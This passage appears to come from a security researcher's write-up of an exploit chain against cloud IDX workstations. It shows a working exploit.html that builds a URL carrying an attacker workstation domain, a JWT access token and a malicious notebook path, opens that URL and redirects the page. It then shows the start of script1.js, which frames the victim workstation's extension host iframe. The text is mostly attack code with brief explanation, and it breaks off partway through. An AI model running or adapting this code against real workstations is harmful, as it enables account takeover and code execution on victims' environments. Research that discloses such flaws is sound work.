 
## Putting Everything together

 > 
 > exploit.html

````html

<html>
<body>
<script>
function openwindow(){
    var attacker_idx_workstation_domain = "idx-attacker-1722601960617.cluster-bec2e4635ng44w7ed22sa22hes.cloudworkstations.dev"
    var path_to_exploit_ipynb = "/home/user/attacker/xss.ipynb"
    var attacker_workstation_jwt_cookie = "eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJodHRwczovL2Nsb3VkLmdvb2dsZS5jb20vd29ya3N0YXRpb25zIiwiYXVkIjoiaWR4LWF0dGFja2VyLTE3MjI2MDE5NjA2MTcuY2x1c3Rlci1iZWMyZTQ2MzVuZzQ0dzdlZDIyc2EyMmhlcy5jbG91ZHdvcmtzdGF0aW9ucy5kZXYiLCJpYXQiOjE3MjI2MDIyMDcsImV4cCI6MTcyMjYwMjI2N30.JFihvbvC0vwDI3dEj_K5dMuM6XUaYp6yCdClbIztMQnWRG-GHFmrySbDoQCFUrzmhbMcPGqp0Ftf_n-I2XiLH4t2vdNRL6I3B2XUmjC3y16J-ToqDhXpEE7iXCZWxH6nzhEoJ6JVxlqm23FAZ9inmViV2irtL1BePHPtlBdVP3WJJ0vlJGynvW12xNS9VqAIeo1LjUKSLdmFcSACiYtNVfkzHmqkpwqSowx_VF8Cq6F6YOhwE4sX23p2F_cRsRKBkOecUAc2A-iKFOJ0VbyMeWDOrhV9ayqPuNzab6I_cdoZvSmEDBqgFjxSRg86_yFnMyxwPno4gy8ZuJ3-e8TNTw"

    var folder = path_to_exploit_ipynb.substring(0,path_to_exploit_ipynb.lastIndexOf('/'))
    var url = "https://"+attacker_idx_workstation_domain+"/?payload=[[%22openFile%22,%22VSCode-remote://"+path_to_exploit_ipynb+"%22]]&_workstationAccessToken="+attacker_workstation_jwt_cookie+"&folder="+folder;
    x = window.open(url);

    window.addEventListener("message", function(e) {
        if(e.data.action === "redirect") {
            window.location = e.data.url;
        }
    });
}
</script>
<button onclick=openwindow()>click</button>
</body>
</html>

````
<br/>
The variable naming should be self explanatory. It populates the url to include the jwt cookie and the path to the `ipynb` file which contains the exploit code. We are opening this url in a new window.

At the same we are also setting up a message listener which is meant for redirecting this page.

 > 
 > script1.js

````js
// Change this value to the victim's IDX workstation domain
var victim_idx_workstation_domain = 'idx-victim-1722601902976.cluster-qpa6grkipzc64wfjrbr3hsdma2.cloudworkstations.dev'

parentOrigin = parent.window.location.origin

ifr = document.createElement('iframe')
ifr.src = "https://"+victim_idx_workstation_domain+"/oss-6a96d5dc452450b1ad67667c4e503a014ef0a908/static/out/vs/workbench/services/extensions/worker/webWorkerExtensionHostIframe.html?parentOrigin="+parentOrigin
document.body.appendChild(ifr)

// --- start utils ---

````